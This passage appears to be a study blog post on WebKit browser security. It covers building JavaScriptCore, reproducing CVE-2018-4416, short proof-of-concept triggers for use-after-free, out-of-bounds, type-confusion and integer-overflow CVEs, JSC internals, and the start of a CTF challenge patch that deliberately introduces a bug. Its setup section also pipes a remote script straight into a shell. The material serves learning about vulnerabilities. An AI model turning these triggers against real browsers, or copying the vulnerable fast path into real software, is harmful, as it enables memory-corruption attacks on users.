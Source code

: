 * Preface
  :PROPERTIES:
  :CUSTOM_ID: preface
  :END:
OKay, binary security is not only /heap/ and /stack/, we still have a
lot to discover despite regular CTF challenge. Browser, Virtual Machine,
and Kernel all play an important role in binary security. And I decide
to study browser first.

I choose a relatively easy one: /WebKit/. (ChakraCore might be easier,
LoL. But there's a rumor about Microsoft canceling the project. Thus I
decided not to choose it).

I will write a series of posts to record my notes in studying /WebKit/
security. It's also my first time learning Browser Security, my posts
*probably* will have *lots of* mistakes. If you notice them, don't be
hesitate to contact me for corrections.

Before reading it, you need to know: - C++ grammar - Assembly Language
grammar - Installation of Virtual Machine - Familiar to Ubuntu and its
command line - Basic compile theory concepts

--------------

* Setup
  :PROPERTIES:
  :CUSTOM_ID: setup
  :END:
Okay, let's start now.

** Virtual Machine
   :PROPERTIES:
   :CUSTOM_ID: virtual-machine
   :END:
First, we need to install a VM as our testing target. Here, I choose
/Ubuntu 18.04 LTS/ and /Ubuntu 16.04 LTS/as our target host. You can
download [[https://www.ubuntu.com/][here]]. If I don't specify the
version, please use *18.04 LTS as default version*.

Mac might be a more appropriate choice since it has XCode and Safari.
Consider to MacOS's high resource consumption and unstable update, I
would rather use Ubuntu.

We need a VM software. I prefer to use
[[https://www.vmware.com/][VMWare]]. Parallel Desktop and
VirtualBox(Free) are also fine, it depends on your personal habit.

I won't tell you how to install Ubuntu on VMWare step by step. However,
I still need to remind you to allocate *as much memory and CPUs as
possible* because compilation consumes a huge amount of resource. An
80GB disk should be enough to store source code and compiled files.

** Source Code
   :PROPERTIES:
   :CUSTOM_ID: source-code
   :END:
You can download WebKit source code in three ways:
[[https://github.com/WebKit/webkit][/git/]], /svn/, and
[[https://webkit.org/getting-the-code/][/archive/]].

The default version manager of WebKit is svn. But I choose git(too
unfamiliar to use svn):

#+begin_example
  git clone git://git.webkit.org/WebKit.git WebKit
#+end_example

** Debugger and Editor
   :PROPERTIES:
   :CUSTOM_ID: debugger-and-editor
   :END:
IDE consumes lots of resource, so I use *vim* to edit source code.

Most debug works I have seen use *lldb* which I am not familiar to.
Therefore, I also install *gdb* with *gef* plugin.

#+begin_src shell
  sudo apt install vim gdb lldb
  wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh
#+end_src

** Test
   :PROPERTIES:
   :CUSTOM_ID: test
   :END:
*** Compiling JavaScriptCore
    :PROPERTIES:
    :CUSTOM_ID: compiling-javascriptcore
    :END:
Compiling a full WebKit takes a large amount of time. We only compile
JSC(JavaScript Core) currently, where most vulnerabilities come from.

Now, you should in the *root directory* of WebKit source code. Run this
to prepare dependencies:

#+begin_src shell
  Tools/gtk/install-dependencies
#+end_src

Even though we still not compile full WebKit now, you can install
remaining dependencies first for future testing. *This step is not
required in compiling JSC if you don't want to spend too much time*:

#+begin_src shell
  Tools/Scripts/update-webkitgtk-libs
#+end_src

After that, we can compile JSC:

#+begin_src shell
  Tools/Scripts/build-webkit --jsc-only
#+end_src

A couple of minutes later, we can run JSC by:

#+begin_src shell
  WebKitBuild/Release/bin/jsc
#+end_src

Let's do some tests:

#+begin_example
  >>> 1+1
  2
  >>> var obj = {a:1, b:"test"}
  undefined
  >>> JSON.stringify(obj)
  {"a":1,"b":"test"}
#+end_example

*** Triggering Bugs
    :PROPERTIES:
    :CUSTOM_ID: triggering-bugs
    :END:

#+begin_quote
  Ubuntu 18.04 LTS here
#+end_quote

We use
[[https://bugs.chromium.org/p/project-zero/issues/detail?id=1652][CVE-2018-4416]]
to test, here is the PoC. Store it to =poc.js= at the same folder of
=jsc=:

#+begin_example
  function gc() {
      for (let i = 0; i < 10; i++) {
          let ab = new ArrayBuffer(1024 * 1024 * 10);
      }
  }

  function opt(obj) {
      // Starting the optimization.
      for (let i = 0; i < 500; i++) {

      }

      let tmp = {a: 1};

      gc();
      tmp.__proto__ = {};

      for (let k in tmp) {  // The structure ID of "tmp" is stored in a JSPropertyNameEnumerator.
          tmp.__proto__ = {};

          gc();

          obj.__proto__ = {};  // The structure ID of "obj" equals to tmp's.

          return obj[k];  // Type confusion.
      }
  }

  opt({});

  let fake_object_memory = new Uint32Array(100);
  fake_object_memory[0] = 0x1234;

  let fake_object = opt(fake_object_memory);
  print(fake_object);
#+end_example

First, switch to the vulnerable version:

#+begin_example
  git checkout -b CVE-2018-4416 034abace7ab
#+end_example

#+begin_quote
  It may spend even more time than compiling
#+end_quote

Run: =./jsc poc.js=, and we can get:

#+begin_example
  ASSERTION FAILED: structureID < m_capacity
  ../../Source/JavaScriptCore/runtime/StructureIDTable.h(129) : JSC::Structure* JSC::StructureIDTable::get(JSC::StructureID)
  1   0x7f055ef18c3c WTFReportBacktrace
  2   0x7f055ef18eb4 WTFCrash
  3   0x7f055ef18ec4 WTFIsDebuggerAttached
  4   0x5624a900451c JSC::StructureIDTable::get(unsigned int)
  5   0x7f055e86f146 bool JSC::JSObject::getPropertySlot<true>(JSC::ExecState*, JSC::PropertyName, JSC::PropertySlot&)
  6   0x7f055e85cf64
  7   0x7f055e846693 JSC::JSObject::toPrimitive(JSC::ExecState*, JSC::PreferredPrimitiveType) const
  8   0x7f055e7476bb JSC::JSCell::toPrimitive(JSC::ExecState*, JSC::PreferredPrimitiveType) const
  9   0x7f055e745ac8 JSC::JSValue::toStringSlowCase(JSC::ExecState*, bool) const
  10  0x5624a900b3f1 JSC::JSValue::toString(JSC::ExecState*) const
  11  0x5624a8fcc3a9
  12  0x5624a8fcc70c
  13  0x7f05131fe177
  Illegal instruction (core dumped)
#+end_example

If we run this on latest version(=git checkout master= to switch back,
and delete build content =rm -rf WebKitBuild/Relase/*= and
=rm -rf WebKitBuild/Debug/*=):

#+begin_example
  ./jsc poc.js 
  WARNING: ASAN interferes with JSC signal handlers; useWebAssemblyFastMemory will be disabled.
  OK
  undefined

  =================================================================
  ==96575==ERROR: LeakSanitizer: detected memory leaks

  Direct leak of 96 byte(s) in 3 object(s) allocated from:
      #0 0x7fe1f579e458 in operator new(unsigned long) (/usr/lib/x86_64-linux-gnu/libasan.so.4+0xe0458)
      #1 0x7fe1f2db7cc8 in __gnu_cxx::new_allocator<std::_Sp_counted_deleter<std::mutex*, std::__shared_ptr<std::mutex, (__gnu_cxx::_Lock_policy)2>::_Deleter<std::allocator<std::mutex> >, std::allocator<std::mutex>, (__gnu_cxx::_Lock_policy)2> >::allocate(unsigned long, void const*) (/home/browserbox/WebKit/WebKitBuild/Debug/lib/libJavaScriptCore.so.1+0x5876cc8)
      #2 0x7fe1f2db7a7a in std::allocator_traits<std::allocator<std::_Sp_counted_deleter<std::mutex*, std::__shared_ptr<std::mutex, (__gnu_cxx::_Lock_policy)2>::_Deleter<std::allocator<std::mutex> >, std::allocator<std::mutex>, (__gnu_cxx::_Lock_policy)2> > >::allocate(std::allocator<std::_Sp_counted_deleter<std::mutex*, std::__shared_ptr<std::mutex, 

  ... // lots of error message

  SUMMARY: AddressSanitizer: 216 byte(s) leaked in 6 allocation(s).
#+end_example

Now, we succeed triggering a bug!

I am not gonna to explain the detail(I don't know either). Hope we can
figure out the root cause after a few weeks

--------------

* Understanding WebKit Vulnerability
  :PROPERTIES:
  :CUSTOM_ID: understanding-webkit-vulnerability
  :END:
Now, it's time to discuss something deeper. Before we start to talk
about WebKit architecture, let's find out common bugs in WebKit.

Here, I only discuss binary level related bugs. Some higher level bugs,
like /URL Spoof/ or /UXSS/, are not our topic. Examples below *are not
merely from WebKit*. Some are Chrome's bugs. We will introduce briefly.
And analyze PoC specifically later.

Before reading this part, you are strongly recommended to read some
materials about compiler theory. Basic Pwn knowledge should also be
learned. My explanation is not clear. Again, correct my mistakes if you
find.

This post will be updated several times as my understanding in JSC
becomes deeper. Don't forget to check it later.

** 1. Use After Free
   :PROPERTIES:
   :CUSTOM_ID: use-after-free
   :END:
A.k.a =UAF=. This is common in CTF challenge, a classical scenario:

#+begin_src C
  char* a = malloc(0x100);
  free(a);
  printf("%s", a);
#+end_src

Because of some logic errors. The code will reuse freed memory. Usually,
we can leak or write once we controlled the freed memory.

*CVE-2017-13791* is an example for WebKit UAF. Here is the PoC:

#+begin_example
  <script>
    function jsfuzzer() {
      textarea1.setRangeText("foo");
      textarea2.autofocus = true;
      textarea1.name = "foo";
      form.insertBefore(textarea2, form.firstChild);
      form.submit();
    }
    function eventhandler2() {
      for(var i=0;i<100;i++) {
        var e = document.createElement("input");
        form.appendChild(e);
      }
    }
  </script>
  <body onload=jsfuzzer()>
    <form id="form" onchange="eventhandler2()">
    <textarea id="textarea1">a</textarea>
    <object id="object"></object>
    <textarea id="textarea2">b</textarea>
#+end_example

** 2. Out of Bound
   :PROPERTIES:
   :CUSTOM_ID: out-of-bound
   :END:
A.k.a =OOB=. It's like the overflow in Browser. Still, we can read/write
nearby memory. =OOB= frequently occurs in false optimization of an array
or insufficient check. For
example([[https://bugs.chromium.org/p/project-zero/issues/detail?id=1033][CVE-2017-2447]]):

#+begin_example
  var ba;
  function s(){
      ba = this;
  }

  function dummy(){
      alert("just a function");
  }

  Object.defineProperty(Array.prototype, "0", {set : s });
  var f = dummy.bind({}, 1, 2, 3, 4);
  ba.length = 100000;
  f(1, 2, 3);
#+end_example

#+begin_quote
  When Function.bind is called, the arguments to the call are
  transferred to an Array before they are passed to
  JSBoundFunction::JSBoundFunction. Since it is possible that the Array
  prototype has had a setter added to it, it is possible for user script
  to obtain a reference to this Array, and alter it so that the length
  is longer than the backing native butterfly array. Then when
  boundFunctionCall attempts to copy this array to the call parameters,
  it assumes the length is not longer than the allocated array (which
  would be true if it wasn't altered) and reads out of bounds.
#+end_quote

In most cases. we cannot directly overwrite =$RIP= register. Exploit
writers always craft fake array to turn partial R/W to arbitrary R/W.

** 3. Type Confusion
   :PROPERTIES:
   :CUSTOM_ID: type-confusion
   :END:
It's a special vulnerability that happens in applications with the
compiler. And this bug is slightly difficult to explain.

Imagine we have the following object(32 bits):

#+begin_src C
  struct example{
    int length;
    char *content;
  }
#+end_src

Then, if we have a =length= == =5= with a =content= pointer object in
the memory, it probably shows like this:

#+begin_example
  0x00: 0x00000005 -> length
  0x04: 0xdeadbeef -> pointer
#+end_example

Once we have another object:

#+begin_src C
  struct exploit{
    int length;
    void (*exp)();
  }
#+end_src

We can force the compiler to parse =example= object as =exploit= object.
We can turn the =exp= function to arbitrary address and RCE.

An example for type confusion:

#+begin_example
  var q;
  function g(){
      q = g.caller;
      return 7;
  }

  var a = [1, 2, 3];
  a.length = 4;
  Object.defineProperty(Array.prototype, "3", {get : g});
  [4, 5, 6].concat(a);
  q(0x77777777, 0x77777777, 0);
#+end_example

Cited from
[[https://bugs.chromium.org/p/project-zero/issues/detail?id=1032][CVE-2017-2446]]

#+begin_quote
  If a builtin script in webkit is in strict mode, but then calls a
  function that is not strict, this function is allowed to call
  Function.caller and can obtain a reference to the strict function.
#+end_quote

** 4. Integer Overflow
   :PROPERTIES:
   :CUSTOM_ID: integer-overflow
   :END:
Integer Overflow is also common in CTF. Though Integer Overflow itself
cannot lead RCE, it probably leads to =OOB=.

It's not difficult to understand this bug. Imagine you are running below
code in 32 bits machine:

#+begin_example
  mov eax, 0xffffffff
  add eax, 2
#+end_example

Because the maximum of =eax= is =0xffffffff=. In cannot contact
=0xffffffff= + =2= = =0x100000001=. Thus, the higher byte will be
overflowed(eliminated). The final result of =eax= is =0x00000001=.

This is an example from
WebKit([[https://phoenhex.re/2017-06-02/arrayspread][CVE-2017-2536]]):

#+begin_example
  var a = new Array(0x7fffffff);
  var x = [13, 37, ...a, ...a];
#+end_example

#+begin_quote
  The length is not correctly checked resulting we can overflow the
  length via expanding an array to the old one. Then, we can use the
  extensive array to =OOB=.
#+end_quote

** 5. Else
   :PROPERTIES:
   :CUSTOM_ID: else
   :END:
Some bugs are difficult to categorize: - Race Condition - Unallocated
Memory - ...

I will explain them in detail later.

--------------

* JavaScriptCore in Depth
  :PROPERTIES:
  :CUSTOM_ID: javascriptcore-in-depth
  :END:
The Webkit primarily includes: - JavaScriptCore: JavaScript executing
engine. - WTF: /Web Template Library/, replacement for C++ STL lib. It
has string operations, smart pointer, and etc. The heap operation is
also unique here. - DumpRenderTree: Produce =RenderTree= - WebCore: The
most complicated part. It has CSS, DOM, HTML, render, and etc. Almost
every part of the browser despite components mentioned above.

And the JSC has: - *lexer* - *parser* - start-up interpreter (*LLInt*) -
three javascript JIT compiler, their compile time gradually becomes
longer but run faster and faster: + *baseline JIT*, the initial JIT + a
low-latency optimizing JIT (*DFG*) + a high-throughput optimizing JIT
(*FTL*), final phase of JIT - two WebAssembly execution engines: + BBQ +
OMG

#+begin_quote
  Still a disclaimer, this post might be *inaccurate* or *wrong* in
  explaining WebKit mechanisms
#+end_quote

If you have learned basic compile theory courses, *lexer* and *parser*
are as usual as what taught in classes. But the code generation part is
frustrating. It has one interpreter and three compilers, WTF? JSC also
has many other unconventional features, let's have a look:

** JSC Value Representation
   :PROPERTIES:
   :CUSTOM_ID: jsc-value-representation
   :END:
To easier identifying, JSC's value represents differently: - pointer :
=0000:PPPP:PPPP:PPPP= (begins with 0000, then its address) - double
(begins with 0001 or FFFE): + =0001:****:****:****= +
=FFFE:****:****:****= - integer: =FFFF:0000:IIII:IIII= (use =IIII:IIII=
for storing value) - false: =0x06= - true: =0x07= - undefined: =0x0a= -
null: =0x02=

=0x0=, however, is not a valid value and can lead to a crash.

** JSC Object Model
   :PROPERTIES:
   :CUSTOM_ID: jsc-object-model
   :END:
Unlike Java, which has fix class member, JavaScript allows people to add
properties any time.

So, despite traditionally statically align properties, JSC has a
*butterfly pointer* for adding dynamic properties. It's like an
additional array. Let's explain it in several situations.

Also, JSArray will always be allocated to *butterfly pointer* since they
change dynamically.

We can understand the concept easily with the following graph:

*** 0x0 Fast JSObject
    :PROPERTIES:
    :CUSTOM_ID: x0-fast-jsobject
    :END:
The properties are initialized:

#+begin_example
  var o = {f: 5, g: 6};
#+end_example

The butterfly pointer will be null here since we only have static
properties:

#+begin_example
  --------------
  |structure ID|
  --------------
  |  indexing  |
  --------------
  |    type    |
  --------------
  |    flags   |
  --------------
  | call state |
  --------------
  |    NULL    | --> Butterfly Pointer
  --------------
  |  0xffff000 | --> 5 in JS format
  |  000000005 | 
  --------------
  |  0xffff000 |
  |  000000006 | --> 6 in JS format
  --------------
#+end_example

Let's expand our knowledge of JSObject. As we see, each =structure ID=
has a matched structure table. Inside the table, it contains the
property names and their offsets. In our previous object =o=, the table
looks like:

| property name | location  |
|---------------+-----------|
| "f"           | inline(0) |
| "g"           | inline(1) |

When we want to retrieve a value(e.g. =var v = o.f=), following
behaviors will happen:

#+begin_src cpp
  if (o->structureID == 42)
      v = o->inlineStorage[0]
  else
      v = slowGet(o, “f”)
#+end_src

You might wonder why the compiler will directly retrieve the value via
offset when knowing the =ID= is =42=. This is a mechanism called *inline
caching*, which helps us to get value faster. We won't talk about this
much,
[[http://www.filpizlo.com/slides/pizlo-icooolps2018-inline-caches-slides.pdf][click
here]] for more details.

*** 0x1 JSObject with dynamically added fields
    :PROPERTIES:
    :CUSTOM_ID: x1-jsobject-with-dynamically-added-fields
    :END:
#+begin_example
  var o = {f: 5, g: 6};
  o.h = 7;
#+end_example

Now, the butterfly has a slot, which is 7.

#+begin_example
  --------------
  |structure ID|
  --------------
  |  indexing  |
  --------------
  |    type    |
  --------------
  |    flags   |
  --------------
  | call state |
  --------------
  |  butterfly | -|  -------------
  --------------  |  | 0xffff000 |
  |  0xffff000 |  |  | 000000007 |
  |  000000005 |  |  -------------
  --------------  -> |    ...    |
  |  0xffff000 |
  |  000000006 | 
  --------------
#+end_example

*** 0x2 JSArray with room for 3 array elements
    :PROPERTIES:
    :CUSTOM_ID: x2-jsarray-with-room-for-3-array-elements
    :END:
#+begin_example
  var a = [];
#+end_example

The butterfly initializes an array with estimated size. The first
element =0= means a number of used slots. And =3= means the max slots:

#+begin_example
  --------------
  |structure ID|
  --------------
  |  indexing  |
  --------------
  |    type    |
  --------------
  |    flags   |
  --------------
  | call state |
  --------------
  |  butterfly | -|  -------------
  --------------  |  |     0     |
                  |  ------------- (8 bits for these two elements)
                  |  |     3     |
                  -> -------------
                     |   <hole>  |
                     -------------
                     |   <hole>  |
                     -------------
                     |   <hole>  |
                     -------------
#+end_example

*** 0x3 Object with fast properties and array elements
    :PROPERTIES:
    :CUSTOM_ID: x3-object-with-fast-properties-and-array-elements
    :END:
#+begin_example
  var o = {f: 5, g: 6};
  o[0] = 7;
#+end_example

We filled an element of the array, so =0=(used slots) increases to =1=
now:

#+begin_example
  --------------
  |structure ID|
  --------------
  |  indexing  |
  --------------
  |    type    |
  --------------
  |    flags   |
  --------------
  | call state |
  --------------
  |  butterfly | -|  -------------
  --------------  |  |     1     |
  |  0xffff000 |  |  -------------
  |  000000005 |  |  |     3     |
  --------------  -> -------------
  |  0xffff000 |     | 0xffff000 |
  |  000000006 |     | 000000007 |
  --------------     -------------
                     |   <hole>  |
                     -------------
                     |   <hole>  |
                     -------------
#+end_example

*** 0x4 Object with fast and dynamic properties and array elements
    :PROPERTIES:
    :CUSTOM_ID: x4-object-with-fast-and-dynamic-properties-and-array-elements
    :END:
#+begin_example
  var o = {f: 5, g: 6};
  o[0] = 7;
  o.h = 8;
#+end_example

The new member will be appended before the pointer address. Arrays are
placed on the right and attributes are on the left of butterfly pointer,
just like the wing of a butterfly:

#+begin_example
  --------------
  |structure ID|
  --------------
  |  indexing  |
  --------------
  |    type    |
  --------------
  |    flags   |
  --------------
  | call state |
  --------------
  |  butterfly | -|  -------------
  --------------  |  | 0xffff000 |
  |  0xffff000 |  |  | 000000008 |
  |  000000005 |  |  ------------- 
  --------------  |  |     1     |
  |  0xffff000 |  |  -------------
  |  000000006 |  |  |     2     |
  --------------  -> ------------- (pointer address)
                     | 0xffff000 |
                     | 000000007 |
                     -------------
                     |   <hole>  |
                     -------------
#+end_example

*** 0x5 Exotic object with dynamic properties and array elements
    :PROPERTIES:
    :CUSTOM_ID: x5-exotic-object-with-dynamic-properties-and-array-elements
    :END:
#+begin_example
  var o = new Date();
  o[0] = 7;
  o.h = 8;
#+end_example

We extend the butterfly with a built-in class, the static properties
will not change:

#+begin_example
  --------------
  |structure ID|
  --------------
  |  indexing  |
  --------------
  |    type    |
  --------------
  |    flags   |
  --------------
  | call state |
  --------------
  |  butterfly | -|  -------------
  --------------  |  | 0xffff000 |
  |    < C++   |  |  | 000000008 |
  |   State >  |  -> -------------
  --------------     |     1     |
  |    < C++   |     -------------
  |   State >  |     |     2     |
  --------------     -------------
                     | 0xffff000 |
                     | 000000007 |
                     -------------
                     |   <hole>  |
                     -------------
#+end_example

** Type Inference
   :PROPERTIES:
   :CUSTOM_ID: type-inference
   :END:
JavaScript is a weak, dynamic type language. The compiler will do a lot
of works in type inference, causing it becomes extremely complicated.

*** Watchpoints
    :PROPERTIES:
    :CUSTOM_ID: watchpoints
    :END:
Watchpoints can happen in the following cases: - haveABadTime -
Structure transition - InferredValue - InferredType - and many others...

When above situations happen, it will check whether watchpoint has
optimized. In WebKit, it represents like this:

#+begin_src cpp
  class Watchpoint {
  public:
      virtual void fire() = 0;
  };
#+end_src

For example, the compiler wants to optimize =42.toString()= to ="42"=
(return *directly* rather than use code to convert), it will check if
it's already invalidated. Then, If valid, register watchpoint and do the
optimization.

** Compilers
   :PROPERTIES:
   :CUSTOM_ID: compilers
   :END:
*** 0x0. LLInt
    :PROPERTIES:
    :CUSTOM_ID: x0.-llint
    :END:
At the very beginning, the interpreter will generate *byte code
template*. Use JVM as an example, to executes =.class= file, which is
another kind of byte code template. Byte code helps to execute easier:

#+begin_example
  parser -> bytecompiler -> generatorfication
  -> bytecode linker -> LLInt 
#+end_example

*** 0x1. Baseline JIT and Byte Code Template
    :PROPERTIES:
    :CUSTOM_ID: x1.-baseline-jit-and-byte-code-template
    :END:
Most basic JIT, it will generate =byte code template= here. For example,
this is /add/ in javascript:

#+begin_example
  function foo(a, b)
  {
  return a + b;
  }
#+end_example

This is bytecode IL, which is more straightforward without sophisticated
lexes and more convenient to convert to asm:

#+begin_example
  [ 0] enter
  [ 1] get_scope loc3
  [ 3] mov loc4, loc3
  [ 6] check_traps
  [ 7] add loc6, arg1, arg2
  [12] ret loc6
#+end_example

Code segment =7= and =12= can result following *DFG* IL (which we talk
next). we can notice that it has many type related information when
operating. In line 4, the code will check if the returning type matches:

#+begin_src cpp
  GetLocal(Untyped:@1, arg1(B<Int32>/FlushedInt32), R:Stack(6), bc#7);
  GetLocal(Untyped:@2, arg2(C<BoolInt32>/FlushedInt32), R:Stack(7), bc#7);
  ArithAdd(Int32:@23, Int32:@24, CheckOverflow, Exits, bc#7);
  MovHint(Untyped:@25, loc6, W:SideState, ClobbersExit, bc#7, ExitInvalid);
  Return(Untyped:@25, W:SideState, Exits, bc#12);
#+end_src

The AST looks like this:

#+begin_example
     +----------+
     |  return  |
     +----+-----+
          |
          |
     +----+-----+
     |   add    |
     +----------+
     |          |
     |          |
     v          v
  +--+---+    +-+----+
  | arg1 |    | arg2 |
  +------+    +------+
#+end_example

*** 0x2. DFG
    :PROPERTIES:
    :CUSTOM_ID: x2.-dfg
    :END:
If JSC detects a function running a few times. It will go to the next
phase. The first phase has already generated byte code. So, *DFG parser*
parses byte code directly, which it's less abstract and easier to parse.
Then, DFG will optimize and generate code:

#+begin_example
  DFG bytecode parser -> DFG optimizer 
  -> DFG Backend
#+end_example

In this step, the code runs many times; and they type is relatively
constant. Type check will use *OSR*.

Imagine we will optimize from this:

#+begin_src cpp
  int foo(int* ptr)
  {
  int w, x, y, z;
  w = ... // lots of stuff

  x = is_ok(ptr) ? *ptr : slow_path(ptr);
  y = ... // lots of stuff
  z = is_ok(ptr) ? *ptr : slow_path(ptr); return w + x + y + z;
  }
#+end_src

to this:

#+begin_src cpp
  int foo(int* ptr)
  {
  int w, x, y, z;
  w = ... // lots of stuff

  if (!is_ok(ptr))
    return foo_base1(ptr, w);
  x = *ptr;
  y = ... // lots of stuff
  z = *ptr;
  return w + x + y + z;
  }
#+end_src

The code will run faster because =ptr= will only do type check once. If
the type of /ptr/ is always different, the optimized code runs slower
because of frequent bailing out. Thus, only when the code runs thousands
of times, the browser uses =OSR= to optimize it.

*** 0x3. FLT
    :PROPERTIES:
    :CUSTOM_ID: x3.-flt
    :END:
A function, if, runs a hundred or thousands of time, the JIT will use
*FLT* . Like *DFG*, *FLT* will reuse the *byte code template*, but with
a deeper optimization:

#+begin_example
  DFG bytecode parser -> DFG optimizer
  -> DFG-to-B3 lowering -> B3 Optimizer ->
  Instruction Selection -> Air Optimizer ->
  Air Backend
#+end_example

*** 0x4. More About Optimization
    :PROPERTIES:
    :CUSTOM_ID: x4.-more-about-optimization
    :END:
Let's have a look on change of IR in different optimizing phases:

| IR       | Style                   | Example                                      |
|----------+-------------------------+----------------------------------------------|
| Bytecode | High Level Load/Store   | =bitor dst, left, right=                     |
| DFG      | Medium Level Exotic SSA | =dst: BitOr(Int32:@left, Int32:@right, ...)= |
| B3       | Low Level Normal SSA    | =Int32 @dst = BitOr(@left, @right)=          |
| Air      | Architectural CISC      | =Or32 %src, %dest=                           |

Type check is gradually eliminated. You may understand why there are so
many type confusions in browser CVE now. In addition, they are more and
more similar to machine code.

Once the type check fails, the code will return to previous IR (e.g. a
type check fails in *B3* stage, the compiler will return to *DFG* and
execute in this stage).

** Garbage Collector (TODO)
   :PROPERTIES:
   :CUSTOM_ID: garbage-collector-todo
   :END:
The heap of JSC is based on GC. The objects in heap will have a counter
about their references. GC will scan the heap to collect the useless
memory.

...still, need more materials...

--------------

* Writing Exploitation
  :PROPERTIES:
  :CUSTOM_ID: writing-exploitation
  :END:
Before we start exploiting bugs, we should look at how difficult it is
to write an exploit. We focus on exploit code writing here, the detail
of the vulnerability will not be introduced much.

This challenge is *WebKid* from 35c3 CTF. You can compile WebKit
binary(with instructions), prepared VM, and get exploit code
[[https://github.com/saelo/35c3ctf/tree/master/WebKid][here]]. Also, a
macOS Mojave (10.14.2) should be prepared in VM or real machine (I think
it won't affect crashes in different versions of macOS, but the attack
primitive might be different).

Run via this command:

#+begin_src shell
  DYLD_LIBRARY_PATH=/Path/to/WebKid DYLD_FRAMEWORK_PATH=/Path/to/WebKid /Path/to/WebKid/MiniBrowser.app/Contents/MacOS/MiniBrowser
#+end_src

#+begin_quote
  Remember to use *FULL PATH*. Otherwise, the browser will crash
#+end_quote

If running on a local machine, remember to create =/flag1= for testing.

** Analyzing
   :PROPERTIES:
   :CUSTOM_ID: analyzing
   :END:
Let's look at the patch:

#+begin_example
  diff --git a/Source/JavaScriptCore/runtime/JSObject.cpp b/Source/JavaScriptCore/runtime/JSObject.cpp
  index 20fcd4032ce..a75e4ef47ba 100644
  --- a/Source/JavaScriptCore/runtime/JSObject.cpp
  +++ b/Source/JavaScriptCore/runtime/JSObject.cpp
  @@ -1920,6 +1920,31 @@ bool JSObject::hasPropertyGeneric(ExecState* exec, unsigned propertyName, Proper
       return const_cast<JSObject*>(this)->getPropertySlot(exec, propertyName, slot);
   }
   
  +static bool tryDeletePropertyQuickly(VM& vm, JSObject* thisObject, Structure* structure, PropertyName propertyName, unsigned attributes, PropertyOffset offset)
  +{
  +    ASSERT(isInlineOffset(offset) || isOutOfLineOffset(offset));
  +
  +    Structure* previous = structure->previousID();
  +    if (!previous)
  +        return false;
  +
  +    unsigned unused;
  +    bool isLastAddedProperty = !isValidOffset(previous->get(vm, propertyName, unused));
  +    if (!isLastAddedProperty)
  +        return false;
  +
  +    RELEASE_ASSERT(Structure::addPropertyTransition(vm, previous, propertyName, attributes, offset) == structure);
  +
  +    if (offset == firstOutOfLineOffset && !structure->hasIndexingHeader(thisObject)) {
  +        ASSERT(!previous->hasIndexingHeader(thisObject) && structure->outOfLineCapacity() > 0 && previous->outOfLineCapacity() == 0);
  +        thisObject->setButterfly(vm, nullptr);
  +    }
  +
  +    thisObject->setStructure(vm, previous);
  +
  +    return true;
  +}
  +
   // ECMA 8.6.2.5
   bool JSObject::deleteProperty(JSCell* cell, ExecState* exec, PropertyName propertyName)
   {
  @@ -1946,18 +1971,21 @@ bool JSObject::deleteProperty(JSCell* cell, ExecState* exec, PropertyName proper
   
       Structure* structure = thisObject->structure(vm);
   
  -    bool propertyIsPresent = isValidOffset(structure->get(vm, propertyName, attributes));
  +    PropertyOffset offset = structure->get(vm, propertyName, attributes);
  +    bool propertyIsPresent = isValidOffset(offset);
       if (propertyIsPresent) {
           if (attributes & PropertyAttribute::DontDelete && vm.deletePropertyMode() != VM::DeletePropertyMode::IgnoreConfigurable)
               return false;
   
  -        PropertyOffset offset;
  -        if (structure->isUncacheableDictionary())
  +        if (structure->isUncacheableDictionary()) {
               offset = structure->removePropertyWithoutTransition(vm, propertyName, [] (const ConcurrentJSLocker&, PropertyOffset) { });
  -        else
  -            thisObject->setStructure(vm, Structure::removePropertyTransition(vm, structure, propertyName, offset));
  +        } else {
  +            if (!tryDeletePropertyQuickly(vm, thisObject, structure, propertyName, attributes, offset)) {
  +                thisObject->setStructure(vm, Structure::removePropertyTransition(vm, structure, propertyName, offset));
  +            }
  +        }
   
  -        if (offset != invalidOffset)
  +        if (offset != invalidOffset && (!isOutOfLineOffset(offset) || thisObject->butterfly()))
               thisObject->locationForOffset(offset)->clear();
       }
   
  diff --git a/Source/WebKit/WebProcess/com.apple.WebProcess.sb.in b/Source/WebKit/WebProcess/com.apple.WebProcess.sb.in
  index 536481ecd6a..62189fea227 100644
  --- a/Source/WebKit/WebProcess/com.apple.WebProcess.sb.in
  +++ b/Source/WebKit/WebProcess/com.apple.WebProcess.sb.in
  @@ -25,6 +25,12 @@
   (deny default (with partial-symbolication))
